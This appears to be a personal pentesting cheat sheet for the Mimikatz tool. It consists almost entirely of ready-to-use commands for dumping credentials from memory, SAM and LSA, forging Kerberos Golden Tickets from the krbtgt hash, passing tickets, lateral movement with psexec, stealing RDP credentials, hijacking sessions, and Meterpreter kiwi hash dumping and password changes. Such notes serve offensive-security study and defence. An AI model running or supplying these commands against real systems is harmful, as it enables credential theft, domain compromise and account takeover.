 

# Overview

  - Tool used to view and steal credentials, generate Kerberos tickets, and leverage attacks
  - Dumps credentials stored in memory.
  - Just a few attacks: Credential Dumping, Pass-the-Hash, Over-Pass-the-Hash, Pass-the-Ticket, Golden Ticket, Silver Ticket


# Creds dumping

module to bypass memory protection
```
privilege::debug
```

```
sekurlsa::logonpasswords # logged in passwords
```
## *Sam dumping*
```
lsadump::sam # (to dump sam file)
lsadump::sam /patch
```
## *LSA dumping*
```
lsadump::lsa /patch # dumping lsa
```

# *Golden Ticket*

^cc25a7

```
privilege::debug
lsadump::lsa /inject /name:krbtgt # filter wanted user name

# Copy SID of the domain and kerberos NTLM hash

kerberos:golden /User:Administrator <or any name> /domain:DOMAIN /sid:<SID> /krbtgt:<NTLM_ _HASH> /id:500 /ptt # pass the ticket

/User: # could be anyname
/domain: # target domain
/sid: # domain sid
/krbtgt: # kerberos tgt ntlm hash
/id:500 # admin RID
/ptt: # pass the ticket 

misc::cmd # open command line with session we created


# acess other domain users 
command \\COMPUTER\SHARE or file
e.g.
psexec \\ESabah cmd.exe
 
```

# RDP 
**Overview:**
*As the attacker was able to gain the session of the machine, they used Mimikatz and ran the mstsc function inside the ts module. Mstsc is a process that runs when the Remote Desktop service in use. It then intercepts the RDP protocol communication to extract the stored credentials.*
**Attack:**
- Intercept RDP connection to steal creds 
```bash

privielge::debug # checks for my perm to run mimikatz
ts::mstsc # intercept connection to dump creds

```

## Session hijacking

```
privilege::debug # checks for my perm to run mimikatz
ts::sessions # list open sessions
token::elevate #  impersonate token
ts::remote /id:ID_NUMBER # steal session 
```

# On Metasploit

```ruby
# Through Meterpreter session
load kiwi

lsa_dump_sam         #  Dump LSA SAM (Dumps all system users hashes)
lsa_dump_secrets     # Dump LSA secrets (unparsed)
password_change     #   Change the password/hash of a user


```

---
Tags: #mimikatz #AD #hashdump #golden_ticket #silver_ticket #kerberos #pass-the-Ticket #Over-Pass-The-Hash #passhash 
Resources: [mimiKatz](https://github.com/gentilkiwi/mimikatz) 
